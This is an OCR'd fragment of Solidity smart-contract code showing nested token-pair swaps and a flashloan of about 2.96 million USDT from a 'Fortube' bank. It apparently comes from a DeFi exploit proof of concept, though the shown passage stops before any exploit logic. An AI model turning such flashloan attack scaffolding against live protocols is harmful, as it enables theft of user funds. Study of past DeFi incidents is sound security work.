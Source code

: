 │                     abi.encode(level, 1)                                                                                                                                                                                                              │
│                 );                                                                                                                                                                                                                                    │
│             } else {                                                                                                                                                                                                                                  │
│                 pairs.swap(                                                                                                                                                                                                                           │
│                     _amount0 - 1,                                                                                                                                                                                                                     │
│                     0,                                                                                                                                                                                                                                │
│                     address(this),                                                                                                                                                                                                                    │
│                     abi.encode(level, 0)                                                                                                                                                                                                              │
│                 );                                                                                                                                                                                                                                    │
│             }                                                                                                                                                                                                                                         │
│         } else {                                                                                                                                                                                                                                      │
│             //flashloan from fortube bank                                                                                                                                                                                                             │
│             uint256 usdtFlashloanAmount = 2_961_750_450987026369366661; // 2'961'750.450987026369366661 USDT                                                                                                                                          │
│                                                                                                                                                                                                                                                       │
│             FortubeBank.flashloan(                                                                                                                                                                                                                    │
│                 address(this),                                                                                                                                                                                                                        │
│                 USDT,                                                                                                                                                                                                                                 │
│                 usdtFlashloanAmount,                                                                                                                                                                                                                  │
│                 hex""                                                                                                                                                                                                                                 │
│             );                                                                                                                                                                                                                                        │
│             // execution passes to executeOperation()                                                                                                                                                                                                 │